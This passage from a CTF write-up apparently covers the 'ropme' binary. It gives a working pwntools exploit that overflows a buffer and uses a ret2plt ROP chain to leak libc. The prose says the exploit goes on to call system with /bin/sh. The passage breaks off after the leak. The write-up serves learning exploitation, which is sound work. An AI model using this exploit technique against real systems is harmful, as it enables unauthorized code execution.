 ```
$ strings -a -t x libc6_2.23-0ubuntu11_amd64.so | grep /bin/sh
18cd57 /bin/sh
```


## Pwntools Magic

Pwntools is an awesome CTF framework, some of the things done above were deliberately done manually to demonstrate concepts.

All of the things that were done manually can be done automatically using pwntools.

I've modified the exploit to find to use the remote version of libc when the argument is "REMOTE" else to use the local version of libc.

I've used the python pwntools library to automatically find rop gadgets such as `pop rdi; ret` and call the relevant functions, such as `puts` with the correct argument, `main`, calculated the version of libc at run time and call `system` with `/bin/sh` as the argument.

## Final PoC


```python
from pwn import *

log.info("Pwnage by memN0ps!!!")

context(os="linux", arch="amd64")
#context.log_level="DEBUG"
#context(terminal=['tmux', 'new-window'])

# Change IP address and port number, also download correct version of libc
if args['REMOTE']:
    p = remote("127.0.0.1", 32497)
    libc = ELF('./libc6_2.23-0ubuntu11_amd64.so')
    ropme_only = 64
else:
    p = process("./ropme")
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
    ropme_only = 0
    #p = gdb.debug('./ropme', 'b main')

log.info("Mapping binaries")
ropme = ELF('ropme')
rop = ROP(ropme)


# 1st stage payload (ret2puts / ret2plt)
junk = b"A" * 72
rop.search(regs=['rdi'], order = 'regs')
rop.puts(ropme.got['puts'])
rop.call(ropme.symbols['main'])
log.info("Stage 1 ROP Chain:\n" + rop.dump())

payload = junk
payload += rop.chain()

log.progress("Sending 1st stage payload!")
p.recvuntil("ROP me outside, how 'about dah?\n")
p.sendline(payload)

# Calculate base address of libc using leaked puts
leaked_puts = p.recvline()[:8].strip().ljust(8, b"\x00")
leaked_puts = u64(leaked_puts)
log.success("Leaked puts@GLIBC_2.2.5: " + hex(leaked_puts))
```